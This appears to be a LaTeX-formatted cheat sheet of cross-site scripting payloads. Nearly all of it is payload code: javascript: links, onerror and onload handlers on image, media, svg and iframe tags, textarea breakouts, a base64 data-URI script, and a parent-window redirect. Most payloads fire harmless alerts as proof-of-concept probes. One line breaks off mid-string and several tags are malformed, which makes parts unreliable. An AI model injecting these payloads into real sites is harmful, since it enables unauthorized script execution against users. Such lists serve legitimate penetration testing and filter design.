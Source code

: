 \documentclass[letterpaper,12pt]{extarticle}
\begin{document}
Other payloads:
\begin{sourcecode}{javascript}
<a href='www.evil-site.com'>www.evil-site.com link</a>
<a href="javascript:document.write('<image src =q onerror=prompt(8)>')">evil link</a>
<a href="javascript:let pdfWindow = window.open('');pdfWindow.document.write( `<iframe width='100%
">evil link</a>
<a href='data:text/html;base64,PHNjcmlwdD5hbGVydCgiSGVsbG8iKTs8L3NjcmlwdD4='>clic on xss</a>
<script>javascript:alert(123456789)</script>
<image src =q onerror=prompt(8)>
<img src="javascript:alert('XSS');">
<object src=1 href=1 onerror="javascript:alert(1)"></object>
<audio src=1 href=1 onerror="javascript:alert(1)"></audio>
<video src=1 href=1 onerror="javascript:alert(1)"></video>
<svg onload svg onload="javascript:javascript:alert(1)"></svg onload>
<iframe onLoad iframe onLoad="javascript:javascript:alert(1)"></iframe onLoad>
<iframe onbeforeload iframe onbeforeload="javascript:javascript:alert(1)"></iframe onbeforeload>
<iframe><textarea></iframe><img src='' onerror='alert(document.domain)'>
</textarea><script>alert(/xss/)</script>
<INPUT TYPE="IMAGE" SRC="javascript:javascript:alert(1);" onerror="javascript:alert(1)"  onclick="javascript:alert(1)">
<iframe><textarea></iframe><img src="" onerror="alert('14/04/2022')">

<image src =q onerror=`window.parent.location = 'http://127.0.0.1:8000/SPC.html'`>
<image src =q onerror='javascript:alert(1223456789)'>
\end{sourcecode}

Example: Base64 XSS payload
\begin{sourcecode}{javascript}
data:text/html;base64,PHNjcmlwdD5hbGVydCgiSGVsbG8iKTs8L3NjcmlwdD4=
\end{sourcecode}

Insert value in HTML element with javascript:
\begin{sourcecode}{javascript}
	document.getElementById("f_464cf370-896e-4af1-a0b1-3f4621ff0a36").value = '<script>javascript:alert(123456789)</script>';
\end{sourcecode}
	

\subsubsection{Cross Site Scripting Validation}

\begin{sourcecode}{javascript}
<script>javascript:alert(1)</script>
\end{sourcecode}
\end{document}
